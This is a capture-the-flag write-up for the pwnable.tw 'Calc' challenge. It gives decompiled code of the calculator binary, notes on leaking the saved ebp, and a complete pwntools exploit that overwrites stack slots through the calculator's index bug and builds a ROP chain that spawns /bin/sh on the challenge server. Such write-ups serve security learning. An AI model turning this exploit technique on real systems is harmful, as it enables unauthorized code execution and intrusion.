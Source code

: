 # Pwnable.tw - Calc
* Website : Pwnable.tw
* Challenge : Calc
* Writeup author : Redhung aka r3dhun9
>Contact :[Philip Chen (Facebook)](https://www.facebook.com/philip.chen.581)

## 0x00
**This challenge took me four days to solve it, and I think it is difficult although it is the third challenge in pwnable.tw !!** :cry: 

## 0x01

Let's use **IDA Pro** to decompile the binary first :
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
    ssignal(14, timeout);
    alarm(60);
    puts("=== Welcome to SECPROG calculator ===");
    fflush(stdout);
    calc();
    return puts("Merry Christmas!");
}
```
We'll see the program sets alarm to send a signal to itself, and then it calls **calc()**.

```c
unsigned int calc()
{
    int pool;
    int number[100];
    char expr;
    unsigned int canary;
    
    canary = __readgsdword(0x14u);
    while(1)
    {
        bzero(&expr, 0x400u);
        if(!get_expr((int)&expr, 1024))
            break;
        init_pool(&pool);
        if(parse_expr((int)&expr, &pool))
        {
            printf((const char *)&unk_80BF804, number[pool-1]);
            fflush(stdout);
        }
    }
    return __readgsdword(0x14u) ^ canary;
}
```
Let's analyze the function:

**Calc()** seems like a function which calculates the input and print it out.

**bzero()** is a function which works like **memset**.

**init_pool()** seems like a function which initiates the pool's number.

**get_expr()** seems like a function which filters the characters except for **+, -, *, /, %**.

**parse_expr()** contains **eval()**, and these two function are the points.

There is a lot of writeups describe the vulnerability, and I like [this writeup](https://drx.home.blog/2019/04/07/pwnable-tw-calc/) the most. :+1: 

The most difficult thing I encountered is **Leaking the saved ebp and calculating the offset.**

Moreover, we got a negative number of saved ebp, so I used **gdb** to find out the value on the stack and calculate their difference.

I got the **0x100000000**, that means our saved ebp must plus **0x100000000** everytime to get the true value.

But when I sent the bin_sh_address to the num[366], the integer will overflow, finally leading to failure.

My solution to this point comes below:

```python
true_ebp = leak_ebp + 0x100000000
bin_sh_address = true_ebp (+|-) offset - 0x100000000
```

Please see more information about how this works:[reference(difference between unsigned int & int)](https://segmentfault.com/q/1010000009639067)

## 0x02
Exploit:

```python
from pwn import *

"""
+360 => ebp
+361 => pop_eax_ret
+362 => 0xb
+363 => pop_edx_ecx_ebx_ret
+364 => 0
+365 => 0
+366 => address of /bin//sh
+367 => int 0x80
+368 => //sh 0x68732f2f
+369 => /bin 0x6e69622f
"""

r = remote('chall.pwnable.tw',10100)

pop_eax_ret = 0x0805c34b

pop_edx_ecx_ebx_ret = 0x080701d0

syscall = 0x08049a21

str_bin = 0x6e69622f

str_sh = 0x0068732f

def leak_ebp():
    r.recv()
    r.sendline('+360')
    ebp = int(r.recvline())
    ebp = ebp + 0x100000000
    bin_sh_addr = ebp - 0x100000000
    return bin_sh_addr

def set_rop():
    bin_sh_addr = leak_ebp()
    for i in range(361,370):
        r.sendline('+{}'.format(i))
        diff = int(r.recvline())
        print(diff)
        #set zero
        if diff < 0 :                              
            r.sendline('+{}+{}'.format(i,str(diff).strip('-')))
            r.recvline()
        elif diff > 0 :
            r.sendline('+{}-{}'.format(i,str(diff)))
            r.recvline()
        #set parameters
        if i == 361 :
            r.sendline('+361+'+str(int(pop_eax_ret)))
            r.recvline()
        elif i == 362 :
            r.sendline('+362+11')
            r.recvline()
        elif i == 363 :
            r.sendline('+363+'+str(int(pop_edx_ecx_ebx_ret)))
            r.recvline()
        elif i == 366 :
            r.sendline('+366'+str(bin_sh_addr))
            r.recvline()
        elif i == 367 :
            r.sendline('+367+'+str(int(syscall)))
            r.recvline()
        elif i == 368 :
            r.sendline('+368+'+str(int(str_bin)))
            r.recvline()
        elif i == 369 :
            r.sendline('+369+'+str(int(str_sh)))
            r.recvline()

def main():
    set_rop()
    r.interactive()

if __name__ == "__main__":
    main()
```

